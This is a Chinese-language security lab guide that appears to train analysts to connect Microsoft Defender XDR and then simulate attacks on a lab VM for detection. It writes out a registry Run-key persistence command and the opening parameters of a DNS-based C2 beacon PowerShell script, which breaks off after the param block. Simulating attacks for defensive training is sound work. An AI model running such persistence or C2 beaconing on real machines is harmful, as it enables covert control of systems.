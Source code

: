 1. 选中“Microsoft Defender XDR 数据连接器”复选框，然后选择“打开连接器页面”。******

1. ******** 在“配置”部分的“说明”选项卡下，取消选中复选框“关闭这些产品的所有 Microsoft 事件创建规则”。**“建议”，然后选择“连接事件和警报”按钮。****

1. 应会看到一条指示连接成功的消息。



## 进行攻击

### 任务 1：攻击配置了 Defender for Endpoint 的 Windows

在此任务中，你将在配置了 Microsoft Defender for Endpoint 的主机执行攻击。

1. 使用密码“Pa55w.rd”以管理员身份登录到 `WIN1` 虚拟机。  

1. 在任务栏的搜索框中，输入“Command”。  命令提示符将显示在搜索结果中。  右键单击命令提示符，并选择“以管理员身份运行”。 确认显示的任何用户帐户控制提示。

1. 在命令提示符中，在每一行中输入命令，并在每一行后按 Enter 键：

    ```CommandPrompt
    cd \
    mkdir temp
    cd temp
    ```

1. 复制并运行此命令：

    ```CommandPrompt
    REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
    ```

### 任务 2：创建 C2（命令和控制）攻击

1. 使用密码“Pa55w.rd”以管理员身份登录到 `WIN1` 虚拟机。  

1. 在任务栏的搜索框中，输入“Command”。  命令提示符将显示在搜索结果中。  右键单击命令提示符，并选择“以管理员身份运行”。 确认显示的任何用户帐户控制提示。

1. 攻击 2 - 复制并运行此命令：

    ```CommandPrompt
    notepad c2.ps1
    ```

选择“是”以创建新文件并将以下 PowerShell 脚本复制到 c2.ps1，然后选择“保存”。

>**注意：**“粘贴到虚拟机”可能有长度限制。  将此脚本分为三部分进行粘贴，以便将所有脚本粘贴到虚拟机中。  确保脚本在记事本 c2.ps1 文件中的外观与在这些说明中一致。

    ```PowerShell
    
    param(
        [string]$Domain = "microsoft.com",
        [string]$Subdomain = "subdomain",
        [string]$Sub2domain = "sub2domain",
        [string]$Sub3domain = "sub3domain",
        [string]$QueryType = "TXT",
            [int]$C2Interval = 8,
            [int]$C2Jitter = 20,
            [int]$RunTime = 240
    )
    